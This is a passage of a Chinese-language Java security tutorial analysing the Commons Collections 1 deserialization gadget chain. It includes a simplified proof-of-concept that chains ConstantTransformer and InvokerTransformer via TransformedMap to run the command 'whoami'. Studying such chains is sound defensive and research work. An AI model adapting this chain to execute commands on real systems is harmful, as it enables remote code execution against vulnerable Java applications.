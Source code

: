 # [Java安全] CommonsCollections1链分析


前面写了很多，现在终于到大名鼎鼎的CC链了，这里我还是跟P牛的《Java安全漫谈》来对CC链进行分析学习

# CommonCollection1

## 前菜

首先P牛帮我们简化CC链成如下代码

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;


public class easycc1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"whoami"}),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```

### Transformed

Transformed是一个接口，他只有一个待实现的方法

```java
package org.apache.commons.collections;

public interface Transformer {
    Object transform(Object var1);
}
```

### ConstantTransformer

ConstantTransformer在CommonCollection里，是实现了Transformer接口的一个类

它的过程就是在构造函数的时候传⼊⼀个 对象，并在transform⽅法将这个对象再返回
